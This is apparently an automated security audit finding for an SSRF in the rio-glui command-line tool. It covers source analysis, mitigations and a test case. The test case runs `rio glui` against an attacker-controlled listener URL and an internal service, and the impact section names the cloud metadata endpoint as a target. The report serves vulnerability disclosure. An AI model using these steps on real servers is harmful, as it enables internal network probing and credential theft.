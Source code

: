 ### Vulnerability List:

#### 1. Server-Side Request Forgery (SSRF) via PATH argument
- **Description:**
    1. An attacker can use the `rio glui` command-line tool and provide a malicious URL as the `PATH` argument instead of a local file path. For example: `rio glui http://malicious.example.com/internal/resource.tif`.
    2. The `rio-glui` application, running on the server, takes this user-provided URL and passes it as `src_path` to the `RasterTiles` class constructor in `rio_glui/raster.py`.
    3. Inside the `RasterTiles` constructor, the application uses the `rasterio.open(src_path)` function. This function interprets the provided `src_path` and if it's a URL, attempts to make an HTTP request to the specified URL from the server where `rio-glui` is running.
    4. If the provided URL points to an internal resource within the server's network (e.g., `http://internal.example.com/sensitive-data`, `http://localhost/admin`) or an external service that the server should not access, `rasterio.open()` will inadvertently initiate a request to that resource.
    5. The response from the internal resource or external service will be fetched by the server and processed by `rio-glui`. This can lead to information disclosure if the attacker can observe the application's behavior, logs, or if the application reflects parts of the response back to the attacker. Furthermore, depending on the nature of the internal resource, it could enable further attacks or misconfigurations. For instance, an attacker could probe for open ports on internal services, access cloud metadata endpoints (e.g., `http://169.254.169.254/latest/meta-data` on AWS), or interact with internal APIs.

- **Impact:**
    - **Information Disclosure:** Attackers can potentially bypass firewalls and access controls to read sensitive data from internal services that are not intended for public access. This can include configuration files, internal documentation, or data from internal applications and databases. Access to cloud metadata endpoints can expose sensitive cloud instance configurations and credentials.
    - **Internal Network Scanning:** Attackers can leverage the `rio-glui` server as a proxy to scan internal networks. By providing a range of internal IP addresses and ports in the `PATH` argument, they can probe for open ports and identify running services, gaining valuable insights into the internal network infrastructure and potential attack vectors.
    - **Access to Internal Services & Potential for Further Exploitation:** Attackers can interact with internal services that are not exposed to the public internet. If these internal services have vulnerabilities or lack proper authentication, the SSRF vulnerability can be a stepping stone for further exploitation. This could include accessing internal administration panels, manipulating internal applications, or triggering actions on internal services, potentially leading to data modification, service disruption, or unauthorized control over internal systems.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - None. The application directly passes the user-provided `PATH` argument to the `rasterio.open()` function without any validation, sanitization, or restrictions on URL schemes or destinations.

- **Missing Mitigations:**
    - **Input Validation and Sanitization:** Implement robust input validation for the `PATH` argument within the `glui` command-line tool to ensure it is safe and expected. This should include:
        - **URL Scheme Whitelisting:** Restrict the allowed URL schemes to a predefined whitelist of safe and intended protocols. For example, if only local files and specific cloud storage like S3 are intended, only `file://` and `s3://` (and potentially `http://` and `https://` for trusted external COGs) should be permitted, explicitly disallowing other schemes like `gopher://`, `ftp://`, etc.
        - **Domain Whitelisting/Blacklisting:** Implement a whitelist of allowed domains or a blacklist of disallowed domains for remote URLs. If the application is intended to access only specific external resources, enforce a whitelist of approved hostnames. For internal deployments, consider restricting access to only local file paths or trusted S3 buckets.
        - **Path Sanitization:** Sanitize the URL path to prevent directory traversal or other path manipulation attacks, especially if local file paths are intended to be supported.
    - **Network Segmentation:** Isolate the `rio-glui` application server from sensitive internal networks. This architectural mitigation limits the potential impact of an SSRF attack by restricting the application's network access to only the necessary external resources and preventing access to internal services.
    - **Principle of Least Privilege:** Configure the server running `rio-glui` with the minimum necessary network permissions. Restrict its ability to initiate connections to internal networks and services, limiting the scope of potential SSRF exploitation.

- **Preconditions:**
    - The `rio glui` command-line tool must be accessible to the attacker. This could be through direct command-line access if the attacker has compromised a server running `rio-glui`, or indirectly if the `rio-glui` functionality is exposed through a web interface or API that allows users to specify the `PATH` argument.
    - The server running `rio-glui` must have network connectivity to the internal resources or external services that the attacker intends to target. If network segmentation is in place, the effectiveness of the SSRF will be limited to the resources accessible from the `rio-glui` server's network segment.

- **Source Code Analysis:**
    1. **File: `/code/rio_glui/scripts/cli.py`**:
       - **Function: `glui`**: This function serves as the entry point for the `rio glui` command-line tool.
       - The `@click.argument("path", type=str)` decorator defines `path` as a command-line argument of type string.
       - The `path` argument is directly taken from user input without any sanitization or validation related to SSRF prevention.
       - The `glui` function instantiates the `RasterTiles` class, passing the user-provided `path` as the `src_path` argument:
         ```python
         @click.command()
         @click.argument("path", type=str)
         ...
         def glui(path, ...):
             """Rasterio glui cli."""
             ...
             raster = RasterTiles(path, indexes=bidx, tiles_size=tiles_dimensions, nodata=nodata)
             ...
         ```

    2. **File: `/code/rio_glui/raster.py`**:
       - **Class: `RasterTiles`**: This class is responsible for handling raster tile data.
       - **Constructor: `__init__(self, src_path, ...)`**: The constructor takes `src_path` as an argument, which originates from the user-controlled `path` command-line argument.
       - **Vulnerable Line**: Inside the `__init__` method, `rasterio.open(src_path)` is called directly with the user-provided `src_path`.
         ```python
         class RasterTiles(object):
             def __init__(self, src_path, indexes=None, tiles_size=512, nodata=None):
                 self.path = src_path
                 self.tiles_size = tiles_size
                 with rasterio.open(src_path) as src: # Potential SSRF vulnerability here
                     try:
                         assert src.driver == "GTiff"
                         assert src.is_tiled
                         assert src.overviews(1)
                     except (AttributeError, AssertionError, KeyError):
                         raise Exception(
                             "{} is not a valid CloudOptimized Geotiff".format(src_path)
                         )
                         ...
         ```
       - `rasterio.open()` is known to support URLs as input, allowing it to open remote raster datasets. However, in this code, there is no validation or restriction on the type or destination of the `src_path`, making it vulnerable to SSRF if a user provides a malicious URL.
       - **Visualization of Data Flow:**

         ```mermaid
         graph LR
             A[User Input (PATH)] --> B(rio_glui CLI);
             B --> C[RasterTiles Constructor (raster.py)];
             C --> D{rasterio.open(src_path)};
             D -- Malicious URL --> E[Target Resource (Internal/External)];
             E --> D;
             D --> F[rio-glui Application];
             F --> G[Attacker (Potential Information Leak)];
         ```

- **Security Test Case:**
    1. **Setup:**
        - Deploy an instance of `rio-glui` that is accessible to the attacker. This could be a publicly accessible server or a server within a network the attacker can access. Let's assume the `rio-glui` server's IP address is `rio-glui-server-ip`.
        - Set up a simple HTTP server on an attacker-controlled machine (e.g., `attacker-server-ip`) to listen for incoming requests. You can use Python's built-in HTTP server: `python -m http.server 8000`. This server will log incoming requests.

    2. **Craft Malicious URL:** On the attacker's machine, determine its IP address (`attacker-server-ip`). Construct a malicious URL that points to the attacker's HTTP server, for example: `http://attacker-server-ip:8000/ssrf-test-rio-glui`.

    3. **Execute `rio glui` Command:** From a terminal or a system where you can execute `rio glui` commands (potentially on the `rio-glui` server itself or from a machine that can send commands to it), run the `rio glui` command, providing the crafted malicious URL as the `PATH` argument:
        ```sh
        rio glui http://attacker-server-ip:8000/ssrf-test-rio-glui
        ```

    4. **Observe Attacker Server Logs:** Check the logs of the attacker's HTTP server (the server started in step 1). You should observe a new incoming HTTP request. The source IP address of this request should be the IP address of the `rio-glui` server (`rio-glui-server-ip`), and the requested path should be `/ssrf-test-rio-glui` (or whatever path you specified in the malicious URL). This confirms that the `rio-glui` server initiated an outbound HTTP request to the attacker-controlled server based on the user-provided `PATH`, demonstrating the SSRF vulnerability.

    5. **Test Internal Resource Access (Optional):** To further demonstrate the potential to access internal resources, if you have access to an internal network reachable by the `rio-glui` server, identify an internal service (e.g., an internal web server at `http://internal-service-ip:8080`).  Execute `rio glui` with a URL pointing to this internal resource:
        ```sh
        rio glui http://internal-service-ip:8080/
        ```
        Monitor network traffic from the `rio-glui` server or check logs of the internal service (if possible) to verify if a request was made to the internal resource from the `rio-glui` server. Successful access to the internal resource (even if `rio-glui` fails to process it as a valid GeoTIFF) further confirms the SSRF vulnerability and its potential to reach internal systems.